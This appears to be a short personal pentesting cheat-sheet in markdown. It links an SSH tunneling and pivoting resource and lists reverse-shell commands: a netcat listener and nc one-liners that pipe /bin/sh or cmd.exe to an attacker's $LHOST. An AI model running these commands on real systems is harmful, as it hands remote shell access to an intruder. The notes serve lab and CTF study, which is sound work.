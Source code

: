 # Misc: References, and other stuff

excellent summary of SSH tunneling [here](https://tryhackme.com/room/lateralmovementandpivoting)



## Shell catching, and stabilization

set up listener with: 
```
nc –nvlp ${LPORT} 
```

now, from our Linux target box we can do:

```
nc $LHOST $LPORT -e /bin/sh
```
or Windows:

```
nc.exe $LHOST $LPORT -e cmd.exe
```

Afterwards, stabilize with [this](https://brain2life.hashnode.dev/how-to-stabilize-a-simple-reverse-shell-to-a-fully-interactive-terminal)


